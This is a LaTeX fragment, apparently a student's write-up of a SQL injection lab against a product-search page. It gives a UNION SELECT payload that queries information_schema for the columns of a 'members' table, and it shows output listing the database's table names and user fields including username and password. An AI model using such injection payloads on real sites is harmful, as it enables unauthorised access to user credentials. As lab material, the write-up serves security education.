 \documentclass[10pt]{article}
\begin{document}
\begin{itemize}
\begin{Verbatim}[obeytabs]
Name			Description							Price
OPTIC-100-SILVER	Entry level optical drive					25.00
OPTIC-040-GOLD		Great price/quality optical drive				45.00
OPTIC-099-ULTIMATE	High performance optical drive					60.00
1			categories,members,orderlines,orders,payments,permissions,products 3.00
		\end{Verbatim}
		\includegraphics[scale=0.5]{1b.png}	
		
		
	\end{itemize}
	
	\section*{2} 
	\begin{itemize}
		\item[a)]
		\begin{verbatim}
		Entering a single whitespace character will display all of the products.
		\end{verbatim} 
		
		\item[b)]
		\begin{Verbatim}[obeytabs]
*%' union select 1,group_concat(column_name) from information_schema.columns where 
table_name = 'members' and table_schema=database() and column_name like '%


Search Products

Name	Description
1	id,username,password,first_name,last_name,email,permission
		\end{Verbatim}
		\includegraphics[scale=0.5]{2b.png}	
		
	\end{itemize}
\end{document}
